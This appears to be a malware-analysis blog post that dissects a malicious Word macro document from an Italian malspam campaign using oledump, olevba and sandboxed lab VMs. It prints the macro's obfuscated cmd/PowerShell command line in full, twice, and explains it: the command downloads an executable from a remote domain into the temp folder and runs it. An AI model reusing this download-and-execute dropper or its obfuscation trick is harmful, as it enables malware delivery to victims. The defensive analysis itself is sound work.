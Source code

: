 ```yaml
---
layout: post
title: "Analysis of a malicious Word document"
description: "Analysis of a malicious Word document"
date: 2018-02-05
tags: malware
show_social: true
comments: true
---
```


Analysis of a malicious Word document used to deliver malware via a malspam campaign.

<!--more-->

The sample I'm going to analyze is a Microsoft Word document distributed via malspam.

As we will see it acts as a _downloader_ that once executed reaches out to the Internet and downloads its second stage. Unfortunately at the time of this analysis the contacted domain was already dead. Nevertheless I found interesting to complete this analysis.

The sample is named `Richiesta.doc` and its SHA256 hash is `586b7dbe2a700e50a9dda9a9e12bd985e54dc5b1b7a77a61450d638358133d3f`.

It is reported as malicious by VirusTotal (and other online sandboxes), and it's worth noting that there are many different malicious samples of `Richiesta.doc` in th wild each one with a different hash.

I will start playing with the sample on my REMnux lab virtual machine.

Examining the file with the `file` utility confirms it is a Microsoft Word document:

```
remnux@remnux:~/ex$ file Richiesta.doc
Richiesta.doc: Composite Document File V2 Document, Little Endian, Os: Windows,
Version 6.1, Code page: 1251, Template: Normal.dotm, Last Saved By: admin,
Revision Number: 2, Name of Creating Application: Microsoft Office Word,
Create Time/Date: Mon Jan 29 21:20:00 2018, Last Saved Time/Date: Mon Jan 29 21:20:00 2018,
Number of Pages: 1, Number of Words: 0, Number of Characters: 1, Security: 0
```

Let's further examine it with the [Didier Stevens](https://blog.didierstevens.com/) `oledump` tool:

```
remnux@remnux:~/ex$ oledump.py Richiesta.doc
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7427 '1Table'
  5:     60355 'Data'
  6:       496 'Macros/PROJECT'
  7:       122 'Macros/PROJECTwm'
  8: M    8163 'Macros/VBA/ThisDocument'
  9: M   14893 'Macros/VBA/Wct7kKdi5'
 10:      7570 'Macros/VBA/_VBA_PROJECT'
 11:      1786 'Macros/VBA/__SRP_0'
 12:       198 'Macros/VBA/__SRP_1'
 13:       532 'Macros/VBA/__SRP_2'
 14:       156 'Macros/VBA/__SRP_3'
 15:       671 'Macros/VBA/dir'
 16: M    8038 'Macros/VBA/tVQSqmk'
 17: M   19011 'Macros/VBA/yBcakFpM'
 18:      4096 'WordDocument'
```

As expected, those three streams marked with an `M` mean that this Word document contains Macros. I can read the Macros after decompressing the VBA stream with `oledump.py -s 8 -v Richiesta.doc` (where `8` is the number of the stream I want to decompress). Unfortunately the code looks heavily obfuscated.

Let's make a run with the `olevba` tool (from the [oletools](http://decalage.info/python/oletools) package):

```
remnux@remnux:~/ex$ olevba Richiesta.doc
```

A couple of interesting keywords contained in the obfuscated code are:
* a function named `Document_Open`: that means that the Macro is run when the Word document is opened;
* a call to `VBA.Shell` : probably the Macro runs an executable file or a system command.

`olevba` does have an option to try deobfuscate the code, but it does not help much in this case.

Anyway I won't care about deobfuscating the code. Instead I will try to run the malware and observe what it does.

To perform basic dynamic analysis, I'm going to use two virtual machines: one is a Windows 8.1 VM, equipped with malware analysis tools, where I will detonate the malware; the other is the REMnux Lab VM which I will use to direct the network traffic to.

To monitor network activity:

* Set up [ApateDNS](https://www.fireeye.com/services/freeware/apatedns.html) on the Windows VM to intercept any DNS requests and have it reply with the IP address of the REMnux VM.
* Set up [INETsim](http://www.inetsim.org/) on the REMnux VM to simulate Internet services and Wireshark to sniff network traffic.
* I'm going to monitor network traffic with Wireshark on the Windows VM as well.

To monitor system activity on the Windows VM:

* Run [Process Explorer](https://docs.microsoft.com/en-us/sysinternals/downloads/process-explorer) (or [Process Hacker](http://processhacker.sourceforge.net)).
* Run [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon).
* Run [Regshot](https://sourceforge.net/projects/regshot).

I'm letting those programs run and exclude normal activity from Process Monitor. Then, right before installing the malware, I'm taking the first shot with Regshot.

Let's now open the Word document!

Once opened, it shows a common social engineering trick to have the victim enable Macros; it says (in Italian): _This document is for an older version of Word. To visualize its content please click 'Enable' in the yellow bar above..._.

![word](/media/20180205/word.png)

(Btw, the yellow bar with the Enable button is not visible in my screenshot because I took the screenshot after having enabled the Macros.)

As Macros are activated, the malicious code starts performing its actions. It communicates with a remote server to download a file (its second stage) which is saved under a temporary directory and then executed.

The domain contacted is `wijdqwbntuqwebqweqwizxc[.]com` as apparent from the ApateDNS log:

![apatedns](/media/20180205/apatedns.png)

Wireshark shows us the full URL where the second stage is downloaded from:

`hxxp://wijdqwbntuqwebqweqwizxc[.]com/stata/index.php?rnd=59978`

![wireshark](/media/20180205/wireshark.png)

It's worth noting that the `User-Agent` string is `15.0`: we'll see shortly that this corresponds to the version of Microsoft Word.

Taking the second shot with RegShot and comparing the results we can easily see that a new file has been created:

```
C:\Users\REM\AppData\Local\Temp\19982.exe
```

In this case the malware could not reach out to the Internet but only to the REMnux VM where INETsim was running; indeed the downloaded file contains the fake HTTP response sent by INETsim.

We can further examine what happened on the system using Process Monitor: we see that the Macros executed a system command `cmd` which in turn called the `powershell` executable to connect to the remote server and download the second stage. In the screenshot below only the events having `Operation` equal to any of `Process Start`, `WriteFile` or `TCP Connect` are shown.

![commandline](/media/20180205/commandline.png)

The full command line (highlighted in the screenshot) is:

```
cmd /c set _a1=pow&& set _a2=ersh&& set _a3=ell&& call %_a1%%_a2%%_a3% $ULjzHtTrs = 'iRJKbn';$jmVo2G = new-object System.Net.WebClient;$DSTFdKxX1 = 'oth1DC';$LyXjIuhD = (New-Object -ComObject word.application).version;$SQYyU = 'xZeKFX';$jmVo2G.headers['user-agent'] = $LyXjIuhD;$NZVXzNr0 = 'ynMSJ';$LyXjIuhD.close();$mNRwMHq = 'b85KGdV67';$LyXjIuhD.quit;$qdsyJ = 'hXUwA7Vo';$JNcVeBxf = $env:temp + '\19982.exe';$KVRjd8Y = 'G9WjeFT';foreach($mBbRidWu in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')){try{$uV3RLeIz = 'pMP6bKdGA';$jmVo2G.DownloadFile($mBbRidWu.ToString(), $JNcVeBxf);$HfVyAwt = 'D1HxGK8T';Start-Process $JNcVeBxf;$Cv31ashE = 'RLpG0dl2';break;}catch{$LlX4G = 'qIpqLRP3';}$qSK6tDU = 'fMY4dFcJ';}
```

This is somewhat confusing to read... but not so much if we clean it up a little bit.

Following is a _manually-decoded_ version of the command line just to make it easier to read. I wrote it on different lines and replaced the original names of important variables with more meaningful names.


```
cmd /c
set _a1=pow&& set _a2=ersh&& set _a3=ell
&&
call %_a1%%_a2%%_a3%
$ULjzHtTrs = 'iRJKbn';
$connection = new-object System.Net.WebClient;
$DSTFdKxX1 = 'oth1DC';
$word = (New-Object -ComObject word.application).version;
$SQYyU = 'xZeKFX';
$connection.headers['user-agent'] = $word;
$NZVXzNr0 = 'ynMSJ';
$word.close();
$mNRwMHq = 'b85KGdV67';
$word.quit;
$qdsyJ = 'hXUwA7Vo';
$malware = C:\Users\REM\AppData\Local\Temp\19982.exe';
$KVRjd8Y = 'G9WjeFT';
foreach($url in 'http://wijdqwbntuqwebqweqwizxc.com/stata/index.php?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978,?rnd=59978'.Split(',')) {
    try{
        $uV3RLeIz = 'pMP6bKdGA';
        $connection.DownloadFile($url.ToString(), $malware);
        $HfVyAwt = 'D1HxGK8T';
        Start-Process $malware;
        $Cv31ashE = 'RLpG0dl2';
        break;
    }
    catch{
        $LlX4G = 'qIpqLRP3';
    }
    $qSK6tDU = 'fMY4dFcJ';
}
```

The first line is a call to `cmd /c` to execute the command that follows. The second line sets three environment variables, which are then concatenated on line 5 into the string `powershell` which is the argument of the command `call`.

Following down the lines we see how a `WebClient` object is created (I renamed it to `$connection`); how the Microsoft Word version is read and assigned to the `user-agent` property of the `$connection` object; how the path where the second stage malware is to be saved to is set. The `foreach` loop is where the actual download happens. Note that the loop is executed only one time because of the `break` instruction and regardless of how many `$urls` are obtained from the `Split` operation. Indeed the `Split` and all those other random strings assignments spread over are just garbage to make the code more difficult to read and reverse.

I tried to download the second stage using [Malzilla](http://malzilla.sourceforge.net/) but unfortunately without success: at this time the domain is dead or already taken down.

![virustracker](/media/20180205/virustracker.png)

That's all!
